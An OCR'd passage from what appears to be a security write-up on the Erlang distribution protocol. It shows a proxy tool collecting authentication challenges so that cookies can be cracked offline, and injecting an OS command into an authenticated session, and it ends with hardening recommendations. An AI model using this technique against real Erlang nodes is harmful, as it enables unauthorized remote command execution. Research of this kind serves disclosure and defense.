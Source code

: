The goal is to collect authentication exchanges, and crack cookie offline.

```
$ python erldp-proxy.py --target 127.0.0.1:9100 --collect-challenges
[*] listening on 127.0.0.1:31337
[*] working in non transparent mode, will connect to 127.0.0.1:9100
...
md5(cookie|2946365952) = d96d11044d7ffc3e2bc9c60b67c28a91
md5(cookie|0) = cc4876d55ff075a40e0a530872496805
```

The reader can verify that in this case, `cookie` is `ejabberd`.

#### Inject OS command

The goal is to inject a correctly formatted OS command inside the authenticated channel right after authentication is successful.

```
$ python erldp-proxy.py --target 127.0.0.1:9100 --inject-cmd id
[*] listening on 127.0.0.1:31337
...
[*] working in non transparent mode, will connect to 127.0.0.1:9100
[!!!] INJECTING 'id' to server
[!!!] DONE
```

## Recommendations

* Replace automatically generated cookies by ones generated using a strong PRNG.
* Protect integrity and confidentiality of distribution using TLS, with mutual authentication. Note this renders Erlang cookie useless.
* _3NJ0Y Y0Ur W1D3 0P3N 3r14N6 D157r18U710N P0r7 !_

